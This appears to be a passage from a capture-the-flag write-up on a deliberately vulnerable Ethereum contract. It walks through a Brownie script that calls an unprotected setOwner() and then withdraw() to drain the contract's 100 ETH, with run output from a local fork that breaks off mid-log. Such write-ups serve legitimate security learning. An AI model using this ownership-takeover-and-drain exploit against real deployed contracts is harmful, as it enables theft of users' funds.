 - You can just ignore pretty much everything. The import part is from here

```py
# imports

[...]
    setup = Setup.at(f"{SETUP}")
    attacker = get_account()
[...]
```

- These are brownie syntax from setting up a contract from its address & we are getting the attacker account from the `get_account()` function which is in the `helpful_scripts.py` file.

- Next this is how we are reading the storage of the `Setup` contract & getting the address of the `VideoChallengeIntro` contract so that we can interact with it & using the same method as above we are making a contract container object to interact with it.

```py
[...]
# ? get the address of the target contract
    vci_contract = VideoChallengeIntro.at(setup.vci.call())
[...]
```

- Next we are setting the owner this is the brownie syntax to specify from where the transaction is coming & we are setting a "gas_limit" because of the `RPC` requirement. Then we are calling the `withdraw()` funtion to drain the contract & steal the funds.

```py
[...]
vci_contract.setOwner({"from": attacker, "gas_limit": 200000}).wait(1)
vci_contract.withdraw({"from": attacker, "gas_limit": 200000}).wait(1)
[...]
```

- That's pretty much it. The rest of the unexplained code is for just show-off & pretty printing purposes.

### Solve

- Run locally by running

```js
brownie run scripts/hack.py

Brownie v1.19.3 - Python development framework for Ethereum

IntroYoutubeBlogDoneProject is the active project.

Launching 'ganache-cli --chain.vmErrorsOnRPCResponse true --wallet.totalAccounts 10 --hardfork istanbul --fork.url https://eth-mainnet.alchemyapi.io/v2/<API_KEY> --miner.blockGasLimit 12000000 --wallet.mnemonic brownie --server.port 8545 --chain.chainId 1'...

Running 'scripts/hack.py::main'...
Transaction sent: 0xb5772d6085a22a3276868343b64d84d48247895516aa538a24c1f15b60ab9f97
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 10
  Setup.constructor confirmed   Block: 17112229   Gas used: 256115 (2.13%)
  Setup deployed at: 0xb6286fAFd0451320ad6A8143089b216C2152c025

Is complete: False
Contract balance: 100 ETH
Transaction sent: 0x2874f1e3386af4a59d72fc258fa4c39bb36dd3cfc3831e9386ceebddb030c758
  Gas price: 0.0 gwei   Gas limit: 200000   Nonce: 5
  VideoChallengeIntro.setOwner confirmed   Block: 17112230   Gas used: 27043 (13.52%)

  VideoChallengeIntro.setOwner confirmed   Block: 17112230   Gas used: 27043 (13.52%)

Transaction sent: 0xde664d5411ed9b55d6579ad9bd11b824b84e87ea77fb238978acffb64e4c1e60
```